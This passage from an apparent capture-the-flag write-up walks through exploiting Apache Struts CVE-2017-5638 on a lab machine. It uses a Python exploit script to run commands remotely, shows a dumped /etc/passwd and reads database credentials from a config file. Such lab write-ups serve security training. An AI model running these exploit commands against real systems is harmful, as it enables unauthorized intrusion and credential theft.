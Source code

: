 ```bash
dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/bin/false
messagebus:x:107:110::/var/run/dbus:/bin/false
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
speech-dispatcher:x:109:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
lightdm:x:111:113:Light Display Manager:/var/lib/lightdm:/bin/false
pulse:x:112:114:PulseAudio daemon,,,:/var/run/pulse:/bin/false
avahi:x:113:117:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
saned:x:114:118::/var/lib/saned:/bin/false
richard:x:1000:1000:Richard F Smith,,,:/home/richard:/bin/bash
tomcat8:x:115:119::/var/lib/tomcat8:/bin/bash
mysql:x:116:120:MySQL Server,,,:/nonexistent:/bin/false
```

We probably need to get access as `richard`.

Afterwards, I checked the content of the current directory:

```bash
$ python apache-struts-cve-2017-5638.py http://10.10.10.64/Monitoring/example "ls -al"
[*] CVE: 2017-5638 - Apache Struts2 S2-045
[*] cmd: ls -al

total 24
drwxr-xr-x  5 root    root    4096 Sep  2 03:47 .
drwxr-xr-x 42 root    root    4096 Oct  3  2017 ..
lrwxrwxrwx  1 root    root      12 Sep  3  2017 conf -> /etc/tomcat8
-rw-r--r--  1 root    root      68 Oct  2  2017 db_connect
drwxr-xr-x  2 tomcat8 tomcat8 4096 Sep  3  2017 lib
lrwxrwxrwx  1 root    root      17 Sep  3  2017 logs -> ../../log/tomcat8
drwxr-xr-x  2 root    root    4096 Sep  2 03:47 policy
drwxrwxr-x  4 tomcat8 tomcat8 4096 Feb 10  2018 webapps
lrwxrwxrwx  1 root    root      19 Sep  3  2017 work -> ../../cache/tomcat8
```

The `db_connect` file sounds the most interesting, therefore, I checked its content: 

```bash
$ python apache-struts-cve-2017-5638.py http://10.10.10.64/Monitoring/example "cat db_connect"                                                                         
[*] CVE: 2017-5638 - Apache Struts2 S2-045
[*] cmd: cat db_connect

[ssn]
user=ssn_admin
pass=AWs64@on*&

[users]
user=admin
pass=admin
```

There are some credentials inside, but I had no clue where to use them and temporarily gave up on them as the did not work for logging in to the Tomcat management console. I first got lost a bit because I really thought that it is necessary to get into the Tomcat management console. I found some credentials in `tomcat-users.xml` as well, but they did not work either. I tried to check all configuration files of Tomcat to see whether any of those contain interesting stuff, but was out of luck.
